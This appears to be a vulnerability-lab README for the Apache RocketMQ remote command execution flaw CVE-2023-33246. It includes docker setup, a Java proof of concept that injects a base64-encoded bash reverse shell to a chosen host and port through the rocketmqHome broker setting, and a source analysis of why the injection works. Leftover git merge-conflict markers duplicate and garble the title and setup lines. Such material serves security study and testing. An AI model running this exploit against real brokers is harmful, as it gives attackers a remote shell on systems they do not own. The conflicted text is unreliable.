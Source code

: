 <<<<<<< Updated upstream
# Apache RocketMQ RCE (CVE-2023-33246)
=======
# Apache RocketMQ Remote Command Execution (CVE-2023-33246)

[中文版本(Chinese version)](README.zh-cn.md)

RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

For RocketMQ versions 5.1.0 and below, under certain conditions, there is a risk of remote command execution. Several components of RocketMQ, including NameServer, Broker, and Controller, are leaked on the extranet and lack permission verification, an attacker can exploit this vulnerability by using the update configuration function to execute commands as the system users that RocketMQ is running as. Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content. To prevent these attacks, users are recommended to upgrade to version 5.1.1 or above for using RocketMQ 5.x or 4.9.6 or above for using RocketMQ 4.x.

References:

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>
>>>>>>> Stashed changes

## Start

Use `docker compose` or `docker-compose` start

```shell
<<<<<<< Updated upstream
docker-compose up -d
=======
docker compose up -d
>>>>>>> Stashed changes
```

## PoC

Use `IDEA` , `Eclipse` or `IDE` to create a new `Maven` project, import dependency:

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.227.128";
        String targetPort = "10911";

        String shellHost = "192.168.227.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

After the console successfully outputs the new configuration, please wait for about 30 seconds and receive a reverse connection request:

![](screenshot.png)

## Simple Analysis

Why modify the `filterServerNums` property: If the configured `filterServerNums` is 0, the calculated `more` will also be 0, so it is not possible to enter the `callShell` method to execute commands.

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

Why modify the `rocketmqHome` attribute: When building a command, the `splitShellString` method is ultimately called to split the parameters according to spaces. Therefore, it cannot be a `NamesrvAddr` parameter, but can only be the starting `rocketmqHome` parameter. However, due to parameter segmentation rules, stricter commands and clever techniques are required to execute.

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```
